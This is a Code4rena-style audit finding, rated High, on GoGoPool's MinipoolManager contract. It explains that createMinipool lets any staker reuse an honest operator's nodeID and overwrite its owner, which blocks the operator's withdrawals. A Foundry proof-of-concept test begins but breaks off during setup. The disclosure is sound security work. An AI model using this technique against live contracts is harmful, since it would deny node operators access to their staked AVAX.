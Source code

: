 ## Risk Classifcation

High

---

## Lines of Code

[MinipoolManager.sol Line 259](https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/MinipoolManager.sol#L259)

[MinipoolManager.sol Line 163](https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/MinipoolManager.sol#L163)

[MinipoolManager.sol Line 289](https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/MinipoolManager.sol#L289)

---

## Vulnerability Details

### Impact

A malicious staker can block withdrawals for a honest node operator by creating a new pool with the same `nodeID` as the existing pool nodeID of honest node operator. Critical mistake here is that when a pool is in a valid transition state, `createMinipool` function allows any random staker to overwrite the owner of an existing pool in [Line 259 of MinipoolManager.sol](https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/MinipoolManager.sol#L259).

Once a new owner is set to an existing nodeID, original minipool operator loses all access to his AVAX. This operator can no longer withdraw AVAX from the minipool (I've demonstrated this below in test case construction). I've classified it as `HIGH` risk because it causes loss of funds to node operators.

### Proof of Concept

The key parts of logic exploited here are

- `Withdrawable` is a valid preceeding state to `Prelaunch`
- `createMinipool` does not check if msg.sender == owner when a previous `nodeID` is being used

Here is the code for exploit. Note that at the end of exploit, honest node operator gets a denial of service when calling `withdrawMinipoolFunds`

```
	function testExploitMinipoolCreation() public {
		// step 0 - assume liquid staker deposits enough AVAX into the staking contract
		address liquidStaker = getActorWithTokens("liquidStaker1", 10000 ether, 0);
		vm.startPrank(liquidStaker);
		uint256 shares = ggAVAX.depositAVAX{value: 10000 ether}();
		assertEq(shares, 10000 ether);
		vm.stopPrank();

		// step 1 - node operator stakes 1000 GGP
		vm.startPrank(nodeOp);
		ggp.approve(address(staking), 1000 ether);
		staking.stakeGGP(1000 ether);
		assertEq(staking.getGGPStake(nodeOp), 1000 ether);

		// step 2 - node operator create minipool of 4000 AVAX
		MinipoolManager.Minipool memory mp1 = createMinipool(4000 ether, 4000 ether, 2 weeks);
		int256 minipoolIndx = minipoolMgr.getIndexOf(mp1.nodeID);
		assertEq(minipoolIndx, 0);
		assertEq(mp1.avaxLiquidStakerAmt, 4000 ether);
		assertEq(mp1.avaxNodeOpAmt, 4000 ether);
```